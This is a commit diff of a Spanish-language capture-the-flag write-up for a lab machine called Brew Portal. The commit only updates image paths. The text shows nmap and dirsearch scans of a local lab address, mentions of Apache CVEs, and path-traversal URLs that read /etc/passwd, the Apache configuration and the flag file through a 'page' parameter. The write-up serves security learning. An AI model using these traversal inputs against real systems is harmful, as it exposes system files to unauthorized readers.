

Before and after one commit to zhenqui/whoami-labs, a Markdown page: Brew_Portal/Brew Portal.md, 2 parts joined by grey strips. GitHub-like rendering.

Commit message:
Tercer commit: subiendo whoami-labs

````diff
--- a/Brew_Portal/Brew Portal.md
+++ b/Brew_Portal/Brew Portal.md
@@ -30,16 +30,16 @@ El impacto es crítico, ya que este vector de ataque no solo permite la lectura
 sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2
 ```
 - **Puertos abiertos:** 80.
-- **Evidencias:** > [!info] Resultado Nmap > ![[../../../04_Assets (Imágenes o Capturas)/image20260419112255.png]]
+- **Evidencias:** > [!info] Resultado Nmap > ![[../../../04_Assets/image20260419112255.png]]
 ### Enumeración Web
 ```
 dirsearch -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -e all
 ```
 
 - **Tecnologías:** [[Apache HTTP Server]], [[PHP]].
-	- ![[../../../04_Assets (Imágenes o Capturas)/image20260419113121.png]]
+	- ![[../../../04_Assets/image20260419113121.png]]
 - **Directorias hallados:** `/server-status.
-	- ![[../../../04_Assets (Imágenes o Capturas)/image20260419112746.png]]
+	- ![[../../../04_Assets/image20260419112746.png]]
 
 ---
 ## 4. Análisis y Explotación
@@ -49,13 +49,13 @@ dirsearch -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -e all
 sudo nmap $TARGET -p 80 -sV --script vuln
 ```
 - El análisis muestra un servidor Apache 2.4.54 en Debian con múltiples vulnerabilidades críticas (CVSS 9.8), incluyendo RCE (CVE-2024-38476, CVE-2024-38474) y Request Smuggling (CVE-2023-25690). El vector de entrada principal es la explotación de estos fallos conocidos mediante exploits públicos listados en el reporte.
-![[../../../04_Assets (Imágenes o Capturas)/image20260419114933.png]]
+![[../../../04_Assets/image20260419114933.png]]
 - Se observa posible vulnerabilidad LFI en la ruta
-	- ![[../../../04_Assets (Imágenes o Capturas)/image20260419121409.png]]
+	- ![[../../../04_Assets/image20260419121409.png]]
 	- http://172.17.0.2/?page=../../../../etc/passwd
-	- ![[../../../04_Assets (Imágenes o Capturas)/image20260419122022.png]]
+	- ![[../../../04_Assets/image20260419122022.png]]
 	- http://172.17.0.2/?page=../../../../etc/apache2/apache2.conf
-	- ![[../../../04_Assets (Imágenes o Capturas)/image20260419123241.png]]
+	- ![[../../../04_Assets/image20260419123241.png]]
 
 	- **Permiso en `/var/www/`**: Aquí es donde vive la web. El archivo dice que en esa carpeta **sí** se permite ver contenido (`Require all granted`).
 
@@ -64,7 +64,7 @@ sudo nmap $TARGET -p 80 -sV --script vuln
 ### Post-Explotación
 - Técnica utilizada [[LFI]]
 - http://172.17.0.2/?page=../flag.txt
-- ![[../../../04_Assets (Imágenes o Capturas)/image20260419123856.png]]
+- ![[../../../04_Assets/image20260419123856.png]]
 
 
 ### Captura de Flag
````
